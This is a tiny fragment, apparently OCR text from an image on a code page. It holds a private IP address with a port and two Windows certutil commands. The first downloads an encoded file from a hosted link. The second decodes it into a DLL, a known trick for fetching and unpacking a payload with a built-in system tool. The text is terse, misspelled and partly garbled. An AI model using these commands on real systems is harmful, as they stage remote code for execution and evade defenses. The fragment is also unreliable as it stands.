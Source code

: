 10.0.2.15:8083

 
certutil -urlcache -split -f linkhosted .enc certficatefile
certutil -decode .enc dll file
